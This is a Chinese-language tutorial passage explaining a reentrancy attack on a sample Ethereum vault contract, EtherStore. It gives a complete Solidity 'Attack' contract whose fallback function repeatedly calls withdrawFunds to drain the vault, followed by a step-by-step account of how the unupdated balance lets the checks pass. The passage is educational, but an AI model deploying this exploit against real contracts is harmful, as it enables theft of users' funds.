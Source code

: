 ```solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // 将etherStore合约地址作为参数进行初始化
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // 检查调用者的转账金额是否大于等于1 ether
      require(msg.value >= 1 ether);
      // 调用EtherStore合约的depositFunds()方法存入1 ether
      etherStore.depositFunds.value(1 ether)();
      // 调用EtherStore合约的withdrawFunds方法退回1 ether
      etherStore.withdrawFunds(1 ether);
  }
  
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

假设EtherStore.sol的合约地址是：0x01；Attack.sol的合约地址是：0x02；假设EtherStore.sol合约已经有用户使用过，并且将若干Ether存入了合约，并还没有进行撤回提取，将设当前合约的Ether余额是100ether。

攻击过程如下：

1. 攻击者创建攻击合约，并执行构造函数，传入参数是以太坊保险库合约EtherStore对应的合约地址：0x1；
2. 攻击者调用合约Attack（0x02），并存入若干Ether（大于1ether）；
3. 攻击者调用合约Attack（0x02）的pwnEtherStore() 方法；
4. 攻击者调用易受攻击合约EtherStore的depositFunds方法，并转入1ether；
5. 攻击者调用EtherStore合约的withdrawFunds方法撤回1 ether；
6. 此时 EtherStore 合约的检查都会通过；

    ```solidity
    require(balances[msg.sender] >= _weiToWithdraw);
    require(_weiToWithdraw <= withdrawalLimit);
    require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
    ```
    开始执行`require(msg.sender.call.value(_weiToWithdraw)());`像攻击者地址转移1 ether，符合最初设计目标。但是转账地址是合约账户，将会执行对应合约，也就是攻击者创建合约的fallback函数。
7. 攻击者者合约Attack的fallback函数执行，检查余额发现是101（初始化100+EtherStore合约转账1），检查通过后继续调用EtherStore合约的withdrawFunds方法继续转移1 ether。
8. 由于之前EtherStore合约没有调用`balances[msg.sender] -= _weiToWithdraw;`减少账户余额，导致仍然可以通过条件检查，继续转移ether。
9. 重复5-8直到EtherStore合约中对应调用者地址的账户为1，不满足attack合约中fallback的判断条件为止。
